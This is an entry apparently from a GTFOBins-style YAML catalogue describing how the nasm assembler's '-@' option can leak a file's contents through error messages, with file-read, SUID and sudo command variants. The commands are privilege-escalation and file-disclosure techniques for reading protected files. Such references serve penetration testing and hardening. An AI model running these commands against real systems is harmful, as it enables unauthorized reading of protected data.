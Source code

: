 description: The file content is treated as command line options and disclosed throught error messages, so this is not suitable for reading arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        nasm -@ $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./nasm -@ $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo nasm -@ $LFILE
---
